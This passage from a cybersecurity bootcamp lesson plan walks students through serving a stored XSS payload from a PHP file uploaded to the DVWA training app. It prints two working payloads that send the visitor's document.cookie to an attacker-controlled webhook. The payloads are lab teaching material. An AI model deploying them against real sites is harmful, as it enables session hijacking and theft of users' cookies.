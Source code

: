 ```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>?cookie="+(document.cookie||"no cookie!") />
EOF;

echo $html;
```

- Save the file, and use it to re-upload it to DVWA. Navigate back to `localhost/hackable/uploads/exploit.php`. Your Webhook should receive another request. but _not_ include any cookies (yet!). This is just to verify that your update didn't break the image tag.

- Finally, edit your Gist again. Update it as follows. This will cause the XSS to actually include the user's cookie in the request, or let you know that they don't have anything to steal.

```
<?php
$html = <<<EOF
<script>document.write('<<Your Webhook URL>?cookie='+(document.cookie||'no cookie!') + '"/>')</script>
EOF;

echo $html;
```

- Save your file, and re-upload it one last time. Navigate back to `localhost/hackable/uploads/exploit.php` to activate it. 

- Check your Webhook to ensure you're receiving requests.
  - What do you notice as your `cookie` value?
  - **Note**: If things aren't working as expected, triple-check your quote marks!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.

### 13. Direct Instruction: Review Serving an XSS Vector (0:15)

<details><summary> In lieu of a formal solution guide for this activity, please walk students through the steps of the activity.</summary></details>

### 14. Homework and Hackazon (0:05)

Explain to students the following:

- During this week, you used DVWA for most of the in class exercises, but you will be preforming similar exploits on Hackazon for the homework. 

- When you're ready to start the homework you will be given a script that will install Hackazon for you, and it is advised to install this sooner than later in case there are any issues that you will need help with. 

- Take a moment to address remaining questions before dismissing class.


---
### Copyright

Trilogy Education Services &copy; 2018. All Rights Reserved.
